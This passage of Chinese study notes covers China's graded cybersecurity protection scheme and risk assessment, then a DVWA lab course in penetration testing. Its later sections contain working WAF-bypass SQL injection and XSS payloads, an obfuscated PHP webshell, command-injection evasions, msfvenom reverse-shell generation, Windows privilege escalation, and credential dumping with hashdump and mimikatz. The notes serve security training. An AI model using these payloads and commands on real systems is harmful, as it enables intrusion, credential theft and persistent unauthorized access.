  - 定义：等级保护对象遭到破环后，对公民、法人和其他组织的合法权益造成<font color=tomato>严重</font>损害，或对社会秩序和公共利益造成<font color=tomato>严重损害</font>，或对国家安全造成<font color=tomato>损害</font>

- 第四级：
  - 等级保护对象遭到破环后，对公民、法人和其他组织的合法权益造成<font color=tomato>严重</font>损害，或对社会秩序和公共利益造成<font color=tomato>严重损害</font>，或对国家安全造成<font color=tomato>严重损害</font>

- 第五级：
  - 对国家安全造成<font color=tomato>特别严重损害</font>

- 测评周期：
  - 第一级：无要求
  - 第二级：两年一次
  - 第三季：一年一次
  - 第四季：半年一次
  - 第五季：根据特殊安全需求进行等级测评

- 安全保护等级：网络运营者自评

- 流程；
  - 网络运营者先自评
  - 专家及行业主管部门评审
  - 评审通过后，报送公安机关备案

### 等级保护角色&职责
- 等级保护管理部门
  - 等级保护管理部门依照等级保护相关法律、行政法规的规定，在各自职责范围内负责<font color=tomato>网络安全保护和监督管理工作</font>
  - 例如：工信部门，网信办等

- 主管部门
  - 负责依照国家网络安全等级保护的管理规范和技术标准，<font color=tomato>督促、检查和指导</font>本行业、本部门或者本地区等级保护对象运营，使用单位的网络安全等级保护工作。

- 运营、使用单位
  - 依照国家网络安全等级保护的管理规范和技术标准，确定其等级保护对象的安全保护等级，有主管部门的，应报其主管部门审核批准；
  - 根据已确定的安全保护等级，到公安机关办理备案手续
  - 按照等保管理规范和技术标准，进行等级保护对象安全保护的规划设计
  - 使用复合等保等级需求的信息技术产品和网络安全产品，开展安全建设或改建工作
  - 制订落实各项安全管理制度，定期自查并选择符合国家相关规定的等级测评机构定期进行等级测评
  - 制订不同等级网络安全事件的响应，处置预案，对网络安全事件分等级进行应急处置

- 网络安全服务机构（安全大厂）
  - 协助运营、使用单位完成等级保护工作，包括：
    - 确定安全保护等级
    - 进行安全需求分析和总体规划
    - 实施安全建设和安全改造
    - 提供服务支撑平台
  - 所做工作：差距分析

- 网络安全等级测评机构（取得公安部授权的测评资质的机构）
  - 对已完成等级保护建设的对象进行等级测评
  - 对网络安全产品供应商的产品进行安全测评
  - 所做工作：
    - 等保测评

- 网络安全产品供应商

### 等级保护规定动作（非具体实施流程）
- 定级：
  - 个体运营商，使用单位，自评等级
  - 跨省或全国统一联网运行的信息系统由主管部门统一确定安全保护等级

- 备案：
  - 定级工作完成后，经过专家评审，行业主管部门审核后，报送所在地公安机关进行备案

- 安全建设或整改
  - 安全保护等级确定后，根据对应等级的相关规定，开展信息安全建设或整改工作
  
- 等级测评
  - 信息系统建设完成后，选择符合规定条件的测评机构，依据《信息系统安全等级保护测评要求》等技术标准，定义对信息系统安全等级状况开展等级测评

- 监督检测
  - 定期对信息系统<font color=tomato>安全状况</font>、<font color=tomato>安全保护制度</font>及其措施的<font color=tomato>落实情况</font>进行自查。


### 等保要求
#### 基本实施流程
- 现实流程：
  - 定级和备案 -> 安全运行和维护（跳过总体规划和安全设计）

#### 定级要求
- 定级准备工作：
  - 定级流程：
    - 确定定级对象（信息系统）
      - 定级对象特征：
        - 具有确定的主要安全责任主体
        - 承载相对独立的业务应用
        - 包含相互关联的多个资源
      - 注意：避免将某个单一的系统组件，如服务器，终端或网络设备作为定级对象，要考察业务整体
      - 云计算
      - 物联网
      - 工控
      - 移动互联技术
    - 通信网络设别
    - 数据资源：可独立定级
  
- 初步确定等级
  - 定级要素（就高不就低）
    - 受侵害的客体
      - 公民、法人和其他组织的合法权益
      - 社会秩序、公共利益
      - 国家安全
    - 对客体的侵害程度
      - 一般损害
      - 严重损害
      - 特别严重损害
  
    

  - 定级方法
    - 定级对象分为：业务信息安全和系统服务安全，分别考虑受侵害的客体及其侵害程度
    - 业务信息：泛指应用
    - 系统服务：泛指基础架构 
    - 综合起来，按两者最高的等级算 
   
- 专家评审&主管部门核准
  - 上述工作全部完成后，输出《安全保护等级定级报告》
  - 模板详见《关于开展全国重要信息系统安全等级保护定级工作的通知》(公信安[2007]861号)
  
- 备案审核

### 测评要求
- 概述：等级保护对象整体测评应从安全控制点，安全控制点间和区域间等方面进行测评和综合安全分析，从而给出等级测评结论。

- 整体测评：
  - 安全控制点测评
  - 安全控制点间测评
  - 区域间测评

- 测评方法：
  - 访谈、文档审查、实地勘察、配置核查、工具测试

- 具体详情：见国标文件

## 风险评估
### 风险评估基础
- 概述：信息安全风险评估就是从风险管理角度，运用科学的方法和手段，系统地分析信息系统所面临的<font color=tomato>威胁</font>及其存在<font color=tomato>脆弱性</font>，评估安全事件一旦发生可能造成的危害程度，提出针对性的抵御威胁的防护对策和整改措施，为防范和化解信息安全风险，将风险控制在可接受的水平，最大限度地保障信息安全提供科学依据

- 风险要素关系


 - 基本要素定义：
   - 资产：对组织有价值的信息或资源，是安全策略保护的对象
   - 威胁：可能导致对系统或组织危害等不希望的事故的潜在起因
   - 脆弱性：可能被威胁利用的资产的薄弱环节
   - 风险：人为或自然的威胁利用信息系统及其管理体系中存在的脆弱性导致安全事件的发生及其对组织造成的影响
   - 安全措施：保护资产，抵御威胁，减少脆弱性，降低安全事件的影响，以及打击信息犯罪而实施的各种实践、规程和机制。


### 风险评估流程


- 根据流程中的各项工作内容，一般将风险评估实施划分为评估准备、风险识别、风险分析、风险评价4个阶段
  - 评估准备
    - 确定风险评估的目标
    - 确定风险评估对象的对象、范围和边界
    - 组建评估团队
    - 开展前期调研
    - 确定评估依据
    - 建立风险评估准则
    - 定制评估方案

  - 风险识别
    - 资产识别
    - 威胁识别
    - 已有安全措施识别
    - 脆弱性识别

  - 风险分析，此阶段依据识别的结果计算得到风险值

  - 风险评价，此阶段依据风险评价准则确定风险等级

### 风险评估实施
- 准备阶段
  - 确定风险评估的目标
  - 确定风险评估对象的对象、范围和边界
  - 组建评估团队
  - 开展系统调研（重点）
    - 确立被评估对象 
  - 确定评估依据
    - 国家标准，行业标准
    - 被评估组织的安全要求
    - 系统本身的实时性和性能要求
  - 建立风险评估准则
  - 定制评估方案
  - 获得高层的支持

- 识别阶段
  - 资产识别
    - 风险评估核心环节
    - 资产识别划分：
      - 业务资产：包括业务的属性，定位，完整性和关联性识别
      - 系统资产（保密性，完整性，可用性）结合业务承载性、业务重要性
        - 资产分类
        - 业务承载性识别
      - 系统组件&单元资产
        - 系统单元
        - 系统组件
        - 人力资源
        - 其他资产
      - 资产赋值：根据信息系统所承载的业务对不同安全属性的依赖程度，选择资产保密性、完整性和可用性最为重要的一个属性的赋值等级作为资产的最终赋值结果；
  - 威胁识别
    - 威胁来源识别
    - 威胁种类识别
    - 威胁动机识别
    - 威胁能力赋值：威胁能力、频率、时机；
  - 已有安全识别
    - 预防性安全措施
    - 保护性安全措施
  - 脆弱性识别
    - 脆弱性赋值
      - 被利用难易程度
      - 影响程度

- 风险分析阶段
  - 风险分析模型
    - 通过威胁与脆弱性进行关联，哪些威胁可以利用哪些脆弱性引发安全事件，并分析安全事件发生的<font color=tomato>可能性</font>；
    - 通过资产与脆弱性进行关联，哪些资产存在脆弱性，一旦安全事件发生，造成的<font color=tomato>损失</font>有多大
    - 根据安全事件发生的可能性和造成的损失，计算出每个资产的风险值

  - 风险计算方法：
    - 定性计算<font color=tomato>（常用）</font>
    - 定量计算

- 风险评估阶段

- 风险处理
  - 接受：风险值不高或处理代价高于风险引起的损失，组织决定接受该风险/残余风险
  - 消减：通过适当的控制措施降低风险发生的可能性
  - 转移：通过购买保险，外包等形式，把风险转移到外部
  - 规避：决定不进行引起风险的行为，从而规避风险
  - 不适用：该项风险对组织不适用


## 渗透测试进阶
### 常见的安全防护设备
- 边界安全
  - 防火墙
    - 内部网络与外部网络的交叉点，保护内部网络不受攻击，可以用来<font color=tomato>加强网络之间的访问控制</font>，计算机流入流出的所有网络通信流量均要经过防火墙
  - VPN
    - 虚拟专用网络，用于通过公共网路建设一个临时的安全的网络连接，是一条穿过不可信的共用网络的安全，加密隧道
  - 入侵检测系统（IDS）
    - 主机层威胁监测设备，能够按照一定的安全策略及时发现网络攻击企图，攻击行为和攻击结果，不影响网络性能，缺乏主动防御能力。
  - 入侵防御系统（IPS）
    - 在IDS基础上加入了主动防御功能，但是会消耗网络性能，甚至可能影响业务
  - 抗拒绝服务系统（抗DDOS）
    - 流量清洗，恶意IP封堵

- 应用安全
  - 应用防火墙（WAF）
    - 应用层威胁监测设备，通过特征提取和分块检索技术进行模式匹配来达到过滤、分析、校验网络请求包的目的，在保证正常网络应用功能的同时，隔绝或者阻断无效或者非法的攻击请求
  - 网页防篡改（云服务）
    - 实时检测网站，阻断网站篡改行为，一旦网站内容被篡改，能够保证在极短时间内将正常网页同步到Web服务器
  - 蜜罐
    - 在网络中部署大量的陷阱主机，形成复杂、逼真的蜜网环境，诱导攻击者，达到攻击手段获取、攻击行为记录，攻击溯源及反制等目标，提升主动防护能力

- 数据安全
  - 数据库防火墙
    - 可以串联部署在数据库服务器和应用服务器之间，对访问数据库的网络数据进行实时的监控和分析，识别安全威胁并及时阻断，保护核心数据的安全
  - 数据库审计系统
    - 可以理解成旁路部署的“数据库防火墙”，监测访问数据库行为并做记录，发现高危行为进行告警，但不做实质上的防御，偏向事后的溯源
  - 数据防泄漏系统（DLP）
    - 准确识别敏感数据，对全量以及风险数据外发进行审计与防护，实时记录、分析和统计数据外发行为与敏感信息外泄事件，方便安全事件发生后的溯源与取证

- 终端安全
  - 终端安全管理系统（EDR）
    - 通过部署在终端的agent实现全网资源的统一监控和管理，通过持续监测终端活动行为、检测安全风险，对于威胁风险进行深度调查、提供补救响应手段等方式，全面提升终端的安全防护能力
    - 防病毒（AV）
      - 商业化杀毒软件

- 安全检测
  - 漏扫系统
    - 集成了应用漏洞扫描，主机漏洞扫描，基线配置核查，代码审计，镜像扫描等多个功能模块

- 安全管理
  - 堡垒机
    - 从功能上讲，它集成了系统运维和安全审计两大功能。从技术上讲，通过切断终端计算机对网络和服务器资源的直接访问，实现以协议代理的方式接管终端计算机和服务器的访问，并且会监控和记录运维人员对网络内的服务器，网络设备、安全设备、数据库等设备的操作行为
  - 态势感知
    - 它不是一台设备，而是由多个安全产品所组成的一套系统，基于统一全网流量和日志数据，融合威胁情报进行实时分析，智能决策，实现全网安全攻击事件的分析、告警、研判、溯源和取证等处置工作
  - 威胁情报平台
    - 基于大数据提供威胁通告、漏洞情报、IP信息、攻击组织、攻击工具等一系列相关信息

### WAF绕过
#### WAD的安装与配置
- 安装phpstudy
  - 讲DVWA的源码包拖入网站根目录中
  - 修改DVWA/config/config.inc.php 配置文件
  
  - 修改DVWA/php 配置文件
  
  - 以系统服务模式运行phpstudy，版本是php7.3.4，同步启动Apache服务
  - 系统初始化后使用SQL_Front工具修改dvwa库下两个表的字符集校对为utf8_general.ci，防止后续出现乱码
  
  - 安装好后从首页打开SQL_Front
  
  - 进入后讲dvwa下的user和guestbook两个表 -> 右键属性 -> 更改字符集

- 安装安全狗
  - 首先查看本地服务，看其中是否有apache服务
    - 搜索win -> service -> 查看本地服务
  
    - 如果没有，暂停phpstudy上的服务
    - 进入网站根目录上一级，进入phpstudy_pro/Extensions/Apache2.4.39/bin
    - 复制上述路径，使用管理员身份打开命令行
    - cd 上述路径，在命令行中进入该路径
  ```
  执行.\httpd.exe -k install -n apache2.4.39
  ```
  
  - 出现上述情况，执行成功
  - 重新进入service，并启动apache服务
  - 打开安全狗安装包，安装安全狗
  - 安装运行后，在dvwa网站测试
  
  
  - 部署成功

#### WAF绕过SQL注入
- 绕过思想：改变语句样式，但是不改变语义

- 内联注释
  - 是MySQL为了保持与其他数据兼容，将MySQL中特有的语句放在/*！ */中，这些语句在不兼容的数据库中不执行，而在MySQL自身却能识别
  ```
  /*!11445 */ 表示版本号；从00000~99999，需要小于当前mysql版本才能识别

  例如：mysql5.6,则版本号需要小于56000才能执行成功

  示例：
  1' /*!11445and*/ '1' = '1 
  ```

- 判断字段数量
```
group by (先排序再分组)
在一定程度上可以代替order by
```
- 首先判断字段数量(使用group by分组查询代替order by)
```
1' group by 1#    成功查询

1' group by 2#    成功查询

1' group by 3#    查询失败，证明字段数为2
```
- regexp(正则函数)
```
regexp "%0A%23"    %0A -> 换行 ； %23 -> #
```
示例语句
```
1' regexp "%0A%23" /*!11144union %0A select*/1,2--+

// 这里 regexp "%0A%23" 相当于正则匹配“换行 + #”，效果等于 -1

使用hackbar执行构造语句
1' regexp "%0A%23" /*!11144union %0A all select*/1, 2--+
```

- 判断库名(使用hackbar)
```
http://192.168.0.106/DVWA/vulnerabilities/sqli/?id=
1' regexp "%0A%23" /*!11144union %0A all select*/database(%0A /*!11144*/), 2--+
&Submit=Submit#
```
```
select 1 union /*!select /*!2*/; 这条语句没问题，可以正常运行
```

- 判断表名
```
http://192.168.0.106/DVWA/vulnerabilities/sqli/?id=-1%27%20UNION%20/*!--%20/*%0aselect/*!1,*/%20GROUP_CONCAT(TABLE_NAME)%20FROM%20/*!--%20/*%0ainformation_schema.tables%20WHERE%20/*!table_schema%20=%20%27dvwa%27*/--+&Submit=Submit#
```

- 判断字段名
```
http://192.168.0.106/DVWA/vulnerabilities/sqli/?id=-1%27%20UNION%20/*!--%20/*%0aselect/*!1,*/%20GROUP_CONCAT(COLUMN_NAME)%20FROM%20/*!--%20/*%0ainformation_schema.COLUMNS%20WHERE%20/*!table_name%20=%20%27users%27*/--+&Submit=Submit#
```

- 注数据
```
http://192.168.0.106/DVWA/vulnerabilities/sqli/?id=-1' union /*!--+/*%0aselect/*!1,*/ /*!--+/*%0aconcat(user,0x7e,password) /*!from*/ users--+&Submit=Submit#
```

#### WAF绕过-XSS攻击
- 不需要script标签也能执行js的方法
  - 
  - 使用base64编码
  ```js
  <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgieHNzIHRlc3QiKTs8L3NjcmlwdD4=">

  // PHNjcmlwdD5hbGVydCgieHNzIHRlc3QiKTs8L3NjcmlwdD4= 
  // 解码后：<script>alert("xss test");</script>
  /*
  <object> 标签：这是 HTML 中用于嵌入外部资源，如图像、音频、视频、网页等的标签。

  data 属性：这个属性用于指定 <object> 标签中嵌入内容的来源。在这种情况下，它指向一个数据 URI。

  数据 URI (data:text/html;base64,)：

  data: 协议表明接下来的字符串是一个数据 URI，而不是一个指向外部资源的 HTTP 链接。
  text/html 指出嵌入的数据是 HTML 类型的内容。
  base64, 表示接下来的数据是用 Base64 编码的。Base64 是一种将二进制数据编码为纯文本的方法，通常用于在不支持二进制数据的环境中传输数据。
  */
  ```
  - svg标签进行绕过，svg标签定义SVG图形容器
  ```
  <svg/onload=alert(1)>
  ```
  - 一些支持事件的不常见html标签
  ```
  <kbd>: 用于表示键盘输入。通常用来显示键盘上的按键名。

  <samp>: 用于显示计算机程序的样本输出。

  <var>: 表示数学表达式或编程上下文中的变量名。

  <abbr>: 用于表示缩写或首字母缩写词，通常与 title 属性一起使用以提供完整形式。

  <address>: 用于提供联系信息，如作者或相关人员的电子邮件地址、URL 等。

  <bdi> (Bi-Directional Isolation): 用于隔离部分文本，以便在双向文本环境中正确显示。

  <cite>: 用于引用创作作品的标题，如书籍、歌曲、电影等。

  <details> 和 <summary>: details 用于创建一个可以展开和折叠的小部件，summary 则用于定义 details 元素的可见标题。

  <figcaption> 和 <figure>: figure 用于标记文档中的图形内容（如图像、图表、照片、代码片段等），而 figcaption 用于为 figure 元素提供标题。

  <mark>: 用于高亮显示文本，通常表示引用或关注点。

  <noscript>: 当浏览器不支持或禁用了 JavaScript 时，显示其中的内容。

  <pre>: 用于显示预格式化的文本。在 pre 元素中的文本通常保留空格和换行符，适用于代码显示。

  <ruby>, <rt> 和 <rp>: 这些标签用于显示东亚文字的注音或字符注释。
  ```

#### WAF绕过-文件上传
- 对于文本文件，WAF普遍是基于文件后缀名进行检测

- 绕过方法1：
  - 利用双写filename=;进行绕过
  
  
  - 成功上传
  - 绕过原因：WAF和后端apache对数据包的解析逻辑不同

- 绕过方法2
  - 利用无用文件头绕过
  - 在数据包的message body部分加入大量不用数据，消耗WAF的检测时间，来达到绕过的目的（注意请求头和请求体之间空一行）

- 绕过内容检测
  - 通过绕过手段将文件上传成功后，无法访问，直接访问含有一句话木马的文件会被拦截
  - 使用免杀的代码进行上传后访问
  ```php
  <?php
      $name = $_GET[1];
      $name = substr($name, 0);
      eval("echo 123;" . $name. "echo 456; ")
  ?>
  ```
  - 绕过原理：避免让直接执行用户输入的特征过于明显

- 利用00截断绕过
  - 在数据抓包后，将文件名改为`one.php;.jpg`
  - 然后在十六进制中，将分号的数值改为00，使WAF检测时，按照jpg处理，但是后端底层在处理时，遇到00，会将00后面的字符丢弃，结果成功上传.php文件

#### WAF绕过漏洞扫描
- 通常在实战中，当我们需要进行漏洞扫描的时候，常常被WAF产品拦截，导致扫描结果不可用，出现很大的误报，这时候需要采取WAF绕过扫描
  
- 触发WAF的原因
  - 漏扫线程过大被禁
    - 解决方法：延时，低线程，使用代理池，白名单扫描
  - 工具指纹被WAF识别被封禁
    - 解决方法：指纹特征修改，模拟用户漏扫
  - 漏洞单点payload特征被WAF识别封禁
    - 解决方法：数据变异绕过，多种工具复合扫描尝试

- WAF绕过漏洞扫描实践
  - 使用代理池：https://www.kuaidaili.com
  - 更换UA（user agent）信息
    - 因为有些扫描器的UA是固定的，容易被识别，可以换成浏览器的UA值
  - 修改漏扫特征指纹
  - 降低线程，扫描敏感度，使用流量代理转发
  - 使用冷门工具代替常见漏扫工具

- 实战过程中，扫描器更多是用来隐匿流量，比如攻击者精心构造一次攻击，将这次攻击隐匿在庞大的扫描流量中

#### WAF绕过命令执行
- 常见的命令执行函数
```php
system()             #输出并返回最后一行shell结果
exec()               #不输出结果，返回最后一行shell结果，所以i你结果保存到一个数组中
passthru()           #只调用命令，把命令的运行结果原样地直接输出到标准输出设备上
popen()、proc_open() #不会直接返回执行结果，而是返回一个文件指针
shell_exec()         #通过shell执行命令并以字符串的形式返回完整的输出
反引号                #本质是使用shell_exec()函数
```

- 命令分隔符
```
windows：  &&  ||  & |
Linux：    &&  ||  & |  ;
分号；在shell中起到连续指令的功能
```

- Linux命令执行绕过
  - 绕过空格
  ```shell
  ${IFS}
  $IFS$9           #$9可以改成$加其他数字
  <
  <>               #重定向符
  {cat,flag.php}   #用逗号，实现了空格功能
  ```
  - 拼接
  ```shell
  #在linux系统中
  a=g;cat fla$a.php
  a=fl;b=ag.php;cat $a$b

  #在php的ping环境中
  ip=;a=g;cat fla$a.php
  ip=;a=fl;b=ag.php;cat $a$b
  ```
  - 编码
  ```shell
  echo "geektime" | base64    # 将geektime编码 Z2Vla3RpbWUK
  echo "Z2Vla3RpbWUK" | base64 -d  #解码
  ```
  - 单引号、双引号绕过
  ```
  cat gee'k'time.txt
  cat gee"k"time.txt
  ```
  - 反斜杠绕过
  ```
  c\a\t ge\ekt\im\e.t\xt
  ```
  - 通配符绕过
  ```
  cat /etc/pass*  // 等价于cat etc/passwd
  ```

- Windows命令执行绕过
```
w"h"o"a"m"i
"w"h"o"a"m"i"
"w"h"o"a"m"i
w"h"o"a"m"i"
who^ami
wh""o^a^mi
wh""o^a^mi
((((Wh^o^am""i))))
(Wh^o^am""i)
(Whoami)
```
```
set a=who
set b=ami
%a%%b%       
//正常执行whoami
call %a%%b%  //正常执行whoami
```

#### WAF绕过-脚本免杀
- 下载最新D盾查杀工具：https//www.d99net.net/
  - 功能：后门程序的查杀软件，用于扫描后门文件或者恶意文件


## Webshell后门分析
### 代码层面后门分析
- 通过文件上传漏洞上传webshell，并访问
- 分析一句话webshell的代码
```php
<?php @eval($_POST[test])?>

// 通过传递test = system("whoami")进行命令执行
```
- 拆解分析
```
1. <?php ?>: php语言的格式
2. eval(): 将括号内的字符串解析成php代码
3. $_POST[test]: 获取POST参数test的值

@是抑制符号，屏蔽函数执行过程中遇到问题而产生的一些错误，警告信息，这样用户就看不到程序的告错信息。
```
- 防御方法：将所有能够执行命令的函数过滤掉

### 菜刀后门分析
- WSExplorer：
  - 介绍：一款网络抓包工具，可以监控服务器上指定软件/进程的通信，能看到指定软件/进程的通信行为，比如什么时候/什么顺序与哪个地址/端口进行了通信，发送了什么内容。可以对数据包内容进行二进制和明文转换，对于一些不加密的数据包甚至可以直接看到明文内容

- 问题分析
```
攻击场景：攻击者通过跳板机攻陷内网，大量内网主机沦陷，被植入木马。作为安全人员，如何排查

使用WSExplorer,查看异常进程，可以抓到该进程的通讯流量包
POST /DVWA/hackable/uploads/info5.php HTTP/1.1
X-Forwarded-For: 164.215.101.112
Referer: http://192.168.0.106
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: 192.168.0.106
Content-Length: 657
Connection: Close
Cache-Control: no-cache

1=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs%3D
&z1=Y21k
z2=Y2QgL2QgIkM6XFVzZXJzXG15c3RpY2FsXERlc2t0b3BccGhwc3R1ZHlccGhwc3R1ZHlfcHJvXFdXV1xEVldBXGhhY2thYmxlXHVwbG9hZHNcIiZ3aG9hbWkmZWNobyBbU10mY2QmZWNobyBbRV0%3D

解析上述base64+url编码，解码
z0:@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$p=base64_decode($_POST["z1"]);$s=base64_decode($_POST["z2"]);$d=dirname($_SERVER["SCRIPT_FILENAME"]);$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";$r="{$p} {$c}";@system($r." 2>&1",$ret);print ($ret!=0)?"
ret={$ret}
":"";;echo("|<-");die();

z1:cmd

z2:cd /d C:\Users\mystical\Desktop\phpstudy\phpstudy_pro\WWW\DVWA\hackable\uploads\"&whoami&echo [S]&cd&echo [E]

由此解码后信息，可知该数据包是执行了whoami命令在C:\Users\mystical\Desktop\phpstudy\phpstudy_pro\WWW\DVWA\hackable\uploads\这个文件中
```

### 网络层面后面分析
- 使用wireshark抓包，通过指令筛选出需要的数据包
```
例如：ip.dst == 192.168.0.106 && http
找到对应数据包后通过右键，追踪流，查看完整数据包信息
```
- 具体过程可以看1126homework上的具体执行流程
  - 路径：homeword/11026homework/hw1126.md

- 现实场景下的流量分析时的流量情况


- 在传入流量监控平台，经过流量监控平台，内置规则分析筛选后，将剩余流量给到用户，在这个过程之前，一共经过了3次分析，一次是各网络区域上探针中内置的检测规则，另一次是流量监控平台上内置的规则，经过两次分析后，再给到用户

### Webshell获取思路
- SQL注入漏洞
  - 通过SQL注入漏洞，将webshell写入服务器的前提
  ```
  1. 知道绝对路径
  2. secure_file_priv为空，允许导入导出
  (在mysql配置文件中，加入secure_file_priv='')
  ```
  - 使用sql语句在指定路径生成文件
  ```sql
   http://192.168.85.150/dvwa/vulnerabilities/sqli/?id=1' union select 1,'<?php phpinfo();?>'into outfile 'C:\\Users\\mystical\\Desktop\\phpstudy\\phpstudy_pro\\WWW\\DVWA\\tests\\shell.php'-- +&Submit=Submit#
   (windows操作系统，路径写\\，两个反斜杠)
  ```

- 文件上传漏洞
  - 略

- 命令执行漏洞 
```
使用echo '' >> <uri>
```

- 其他通用RCE漏洞
```
thinkphp远程代码执行
phpcms任意文件上传
dedecms远程代码执行
南方数据cms备份getshell
phpmyadmin后台获取webshell等等
```

## Windows/Linux权限提升
- 整个渗透测试流程
```
信息收集 -> 渗透测试利用漏洞 -> 遇到WAF -> 绕过WAF -> 拿下目标站点，获取Webshell -> 获取普通用户权限 -> 通过提权得到系统权限
```

### windows提权前期相关事项
- 明确事项
```
明确漏洞编号及版本
明确漏洞利用平台及版本
确保cmd执行权限正常运行
明确服务器相关防护软件情况
```
- systeminfo查看系统补丁：一般，如果网站安全做好的情况下，会有几百个补丁


- Windows提权常用命令
```
whoami      
ipconfig    
quser       
查看当前权限
查看服务器为内网还是外网
查看管理是否在线
systeminfo  查看服务器信息及相应的补丁，可找相应的补丁提权
tasklist    
查看当前运行的进程，是否有av，可利用的第三方的服务提权等
net user    
查看用户 
net user admin adqqq7! /add 添加账户
net localgroup administrators admin /add    
net user guest /active:yes  激活guest账户
net user admin /del 删除admin账户
tasklist /svc   查看进程服务
tasklist /m dll 查看调用某个dll的进程
tasklist /v 显示当前进程和进程用户
qwinsta 显示会话情况
net config workstation  查看当前登陆用户信息
hostname    
主机名
set 查看环境变量
net view    
将admin这个用户加到管理组
显示当前域或工作组中计算机的列表
net statistics workstation  查看主机开机时间
net share   查看共享文件夹

查看3389是否开启，0x0为开，0x1为关
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /vfDenyTSConnections

```

- win2012通用，win7开启3389：
```
wmic /namespace:\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1

wmic /namespace:\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName ='RDP-Tcp') call setuserauthenticationrequired 1

reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /vfSingleSessionPerUser /t REG_DWORD /d 0 /f
```

-  windows server2008开启3389：
```
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /vfDenyTSConnections /t REG_DWORD /d 00000000 /f
```

-  windows server 2003，windws XP开启3389：
```
wmic path win32_terminalservicesetting where (__CLASS != "") call 
setallowtsconnections 1
```

- 完整的攻击过程演示
```
靶机为win7
1.通过文件上传，在win7上传一个webshell，然后通过蚁剑连接，得到win7普通用户的权限

2.通过kali的msf制作一个后门程序，通过得到的普通用户权限，将后门文件上传到靶机

1. 通过kali监听后门程序

2. 在目标机器上运行后门程序

3. kali中目标机器上线， 拿到meterpreter命令行，形成会话

4. 结合其他漏洞实现提权
```
- 使用msfvenom生成后门程序
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.0.99 lport=5555 -f exe -o 5555.exe
```

- 开启msf监听
```
msfconsole
use exploit/multi/handler
options
set payload windows/x64/meterpreter/reverse.tcp
set lhost 192.168.0.99
set lport 5555
run
```
- 通过蚁剑，将5555.exe上传到指定位置，然后通过虚拟终端，直接执行5555.exe
- 在kali上得到meterpreter
- 在kali上进入shell，通过systeminfo进行信息收集
```
shell -> systeminfo
```

- 使用exit回到meterpreter
- 使用getuid，可以查看当前用户权限

- 使用run post/windows/gather/enum_patches 查看补丁信息

- 之后通过run post/multi/recon/local_exploit_suggester进行可利用提权exp查询

- 下面进行提权，将当前会话隐藏到后台，进入msfconsole
```
background
```
- 后续可以利用sessions命令对后台会话进行查看和进入
```
sessions -l  查看后台会话

sessions -i <会话编号>  进入指定会话
```

- 使用windows/local/ms14_058_track_popup_menu 进行提权
```
use windows/local/ms14_058_track_popup_menu
options

set session 1

set target windows x64

set payload windows/x64/meterpreter/reverse_tcp

exploit

成功拿到系统权限
```


### windows提权后期，密码安全性测试
- 在meterpreter命令行上，利用run hashdump或者hashdump进行dump服务器hash值
```
执行hash

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
mystical:1000:aad3b435b51404eeaad3b435b51404ee:47894b7a7643414508bbeca886cc069f:::

得到账号密码，后通过md5解密，得到账号密码
```

- 利用mimikatz获取管理员账号密码（好用）
```
load kiwi

creds_all 列举所有账号密码
```

### Linux权限提升及提权必备命令学习
- Linux提权寻找exp
```
 https://www.exploit-db.com/
 http://www.securiteam.com
 http://www.securityfocus.com
 http://www.exploitsearch.net
 http://metasploit.com/modules/
 http://securityreason.com
 http://seclists.org/fulldisclosure/
 http://www.google.com
```

- 用户信息相关命令
```
id
whoami
who
w
last
cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/
```

- 列出超级用户
```
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'
awk -F: '($3 == "0") {print}' /etc/passwd
cat /etc/sudoers
sudo -l
```

- 查看操作系统版本
```
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release # Debian
cat /etc/redhat-release # Redhat
```

- 查看内核版本：
```
cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
```

- 查看环境变量
```
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
```

-查看正在运行的程序及对应的用户权限
```
ps aux
ps -ef
top
cat /etc/services
```

- 查看ROOT权限运行的进程
```
ps aux | grep root
ps -ef | grep root
```

- 查看可上传方式
```
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
```

- 查看缓存
```
arp -e
route
/sbin/route -nee
```

- 查看网络通信
```
lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
```

### Linux提权实战 - 脏牛提权
- 环境：Metasploitable-2
```
# 下载
https://sourceforge.net/projects/metasploitable/files/Metasploitable2/
# 账号密码
